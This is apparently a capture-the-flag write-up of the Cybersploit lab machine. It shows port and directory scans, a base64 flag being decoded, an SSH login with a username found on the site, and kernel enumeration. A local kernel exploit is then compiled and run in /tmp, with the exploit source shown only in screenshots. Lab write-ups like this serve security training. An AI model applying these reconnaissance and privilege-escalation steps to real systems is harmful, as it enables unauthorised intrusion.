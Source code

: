 ```
> rustscan -b 1000 -u 5000 -r 0-65535 -a 192.168.187.92 -- -Pn
```
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.187.92:22
Open 192.168.187.92:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-23 03:25 EDT
Initiating Parallel DNS resolution of 1 host. at 03:25
Completed Parallel DNS resolution of 1 host. at 03:25, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 03:25
Scanning 192.168.187.92 [2 ports]
Discovered open port 80/tcp on 192.168.187.92
Discovered open port 22/tcp on 192.168.187.92
Completed Connect Scan at 03:25, 0.17s elapsed (2 total ports)
Nmap scan report for 192.168.187.92
Host is up, received user-set (0.17s latency).
Scanned at 2023-10-23 03:25:19 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
```

```
http://192.168.187.92/
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/2b132ff5-f7b3-431e-b8d8-aa32c3efb864)
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/c944b990-66f2-4a8b-b39b-9d3b0cb48df3)
```
username:itsskv
```

Feroxbuster
```
> feroxbuster -u http://192.168.187.92 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --no-recursion --dont-extract-links --random-agent --filter-status 404

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.187.92
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       10l       30w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       50l      133w     2333c http://192.168.187.92/
200      GET       50l      133w     2333c http://192.168.187.92/index
200      GET        1l        1w       53c http://192.168.187.92/robots
200      GET        0l        0w  3757743c http://192.168.187.92/hacker
[####################] - 5m     87650/87650   0s      found:4       errors:0      
[####################] - 5m     87650/87650   290/s   http://192.168.187.92/  
```

```
http://192.168.187.92/robots
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/9b2f982e-ac4d-4d7e-9b4d-c2728b57dc52)
```
> echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 --decode
cybersploit{youtube.com/c/cybersploit}%   
```

SSH as `itsskv`
```
> ssh itsskv@192.168.187.92
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/03023a8f-5f2f-449d-bc58-2fdfb37d81f3)

```
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux
itsskv@cybersploit-CTF:~$ cat /etc/issue
Ubuntu 12.04.5 LTS \n \l
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/340443b1-3c1f-4754-a82b-3ef77be63321)


![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/43412bd1-d9a0-4281-9181-b5bfb342aba9)
```
itsskv@cybersploit-CTF:~$ cd /tmp
itsskv@cybersploit-CTF:/tmp$ nano exploit.c
itsskv@cybersploit-CTF:/tmp$ chmod +x exploit.c 
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/8480e4ea-72ec-499a-bb79-496f5e2570a2)

```
itsskv@cybersploit-CTF:/tmp$ gcc exploit.c -o exploit
itsskv@cybersploit-CTF:/tmp$ ./exploit
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/75120969-2663-440d-8eb3-99bdc9af5605)

---

